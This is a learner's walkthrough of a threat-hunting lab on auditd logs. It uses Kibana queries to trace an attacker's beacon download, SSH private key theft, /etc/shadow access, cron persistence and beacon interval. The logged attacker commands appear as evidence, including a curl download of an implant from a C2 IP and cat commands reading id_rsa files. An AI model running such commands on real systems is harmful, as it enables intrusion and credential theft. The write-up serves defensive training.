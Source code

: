 https://aceresponder.com/learn/auditd

This is a learning module for Auditd by the excellent platform Ace Responder.

**Q1. Beacon: The attacker downloaded a beacon from their C2 server. What IP address did they download the beacon from?**

I used the following query and added the columns `process.title` and `user.audit.name`:

`event.category: process AND process.args: *`

| Time                        | process.title                                              |
| --------------------------- | ---------------------------------------------------------- |
| Dec 12, 2023 @ 12:14:48.794 | curl http://54.164.150.221/implant -o /tmp/install-utility |

Upon additional review, I could have also used better fields, such as `event.action: executed`, `auditd.data.syscall: execve`, and `process.name: (curl OR wget OR scp OR ftp)`

**Q2. Initial Access: What IP did the attacker initially access Ubuntu from?**

After reviewing `event.category: authentication AND user.audit.name: ace`, there are events with the fields `source.ip`, `auditd.summary.object.secondary`, and `auditd.data.hostname` that contain the attacker's IP (in this case, the `auditd.message_type` is 'user_login').

**Q3. Private Keys: From which user other than ace did the attacker steal an SSH private key from?**

` @timestamp:[2023-12-12T12:14:48.795Z TO *] AND user.audit.name: ace`

| Time                     | process.title                              |
|--------------------------|--------------------------------------------|
| Dec 12, 2023 @ 12:25:56.451 | cat /home/myuser/.ssh/                    |
| Dec 12, 2023 @ 12:25:56.451 | cat /home/myuser/.ssh/id_rsa              |
| Dec 12, 2023 @ 12:25:56.447 | cat /home/ace/.ssh/authorized_keys        |
| Dec 12, 2023 @ 12:25:56.447 | find /home/myuser/.ssh/ -not -iname *.pub |
| Dec 12, 2023 @ 12:25:56.443 | cat /home/ace/.ssh/id_rsa                 |
| Dec 12, 2023 @ 12:25:56.439 | find /home/ace/.ssh/ -not -iname *.pub    |

The advised solution was: `user.audit.name:ace AND process.args:*.ssh*` and adding the column `process.args`.

I also made a note of the `process.pid` and `process.ppid` to timeline the attacker's actions.

**Q4. Credential Access: Which file did the attacker steal user hashes from?**

Knowing that modern systems commonly store password hashes at '/etc/shadow', I checked this first. My next stops would have been '/etc/passwd' for legacy systems, '/var/lib/sss/db/' for systems that may be using the System Security Services Daemon (SSSD) for centralised auth (LDAP, Kerberos), '/etc/security/opasswd' for hashes of previous passwords (this file stores them to prevent reuse), the LDAP directory service database (the path can vary), or '/etc/pam.d' for some Pluggable Authentication Modules (PAM) configurations that may redirect hashes/auth methods to custom files, and if third-party IAM tools like Okta are in use they may cache/store hashes locally somewhere.

**Q5. Persistence: What file did the attacker modify for persistence?**

 I have limited familiarity with Linux persistence methods and reviewed Pepe Berba's excellent article about it to learn more: https://pberba.github.io/security/2021/11/22/linux-threat-hunting-for-persistence-sysmon-auditd-webshell The chart is especially handy.

Anyway, I reused the same query earlier with a minor addition, and added the columns `auditd.summary.object.primary` and `process.title`:

`@timestamp:[2023-12-12T12:14:48.795Z TO *] AND user.audit.name: ace AND event.category: process`

There were a lot of hits here (154!) and required some manual review.

This row in particular jumped out at me:

| Time                        | auditd.summary.object.primary | process.title                    |
| --------------------------- | ----------------------------- | -------------------------------- |
| Dec 12, 2023 @ 12:28:45.059 | /usr/bin/chmod                | chmod +x /etc/cron.daily/install |

Unfortunately, its not clear to me how the binary ended up in this directory or what is actually contained in it, but it does appear to be the answer to the question. After submitting the answer, the explanation didn't help resolve my confusion, but did explain a better way to approach this problem -- using the parent PID for the script to pivot: `process.ppid:25448 OR process.ppid:25393`

**Q6. File System Event: Did the attacker create /etc/cron.daily/install or just modify it?**

```
@timestamp:[2023-12-12T12:14:48.795Z TO *] AND user.audit.name: ace AND event.category: file AND auditd.summary.object.primary: "/etc/cron.daily/install"
```

| Time                        | auditd.summary.object.primary | process.title                    | event.action                |
| --------------------------- | ----------------------------- | -------------------------------- | --------------------------- |
| Dec 12, 2023 @ 12:28:45.059 | /etc/cron.daily/install       | /bin/bash                        | opened-file                 |
| Dec 12, 2023 @ 12:28:45.059 | /etc/cron.daily/install       | chmod +x /etc/cron.daily/install | changed-file-permissions-of |

Digging into the first event, `auditd.path` reveals:

```
{
  "rdev": "00:00",
  "name": "/etc/cron.daily/",
  "cap_fe": "0",
  "cap_fi": "0",
  "dev": "08:01",
  "mode": "040755",
  "ouid": "0",
  "item": "0",
  "nametype": "PARENT",
  "ogid": "0",
  "cap_fp": "0",
  "cap_frootid": "0",
  "cap_fver": "0",
  "inode": "164"
},
{
  "cap_fver": "0",
  "inode": "2074",
  "item": "1",
  "rdev": "00:00",
  "cap_fe": "0",
  "cap_fi": "0",
  "cap_fp": "0",
  "dev": "08:01",
  "ogid": "0",
  "mode": "0100644",
  "nametype": "CREATE",
  "cap_frootid": "0",
  "name": "/etc/cron.daily/install",
  "ouid": "0"
}
```

The answer seems straightforward: "nametype:": "CREATE" indicates the path ("name": "/etc/cron.daily/install") represents a file being created.

**Q7. Beacon Frequency: Which of the following best describes the attacker's beacon interval (the amount of time that passes between check-ins)?**

I used the following query, which provided 62 hits for me to review the intervals between check-in:
```
@timestamp:[2023-12-12T12:14:48.795Z TO *] AND user.audit.name: ace AND event.category: process AND process.title: "/tmp/install-utility"
```
I submitted the answer for between 1-2 minutes, which was correct. However, the explanation showed that I had incorrectly approached the problem: I should have used `auditd.data.syscall:socket` instead.
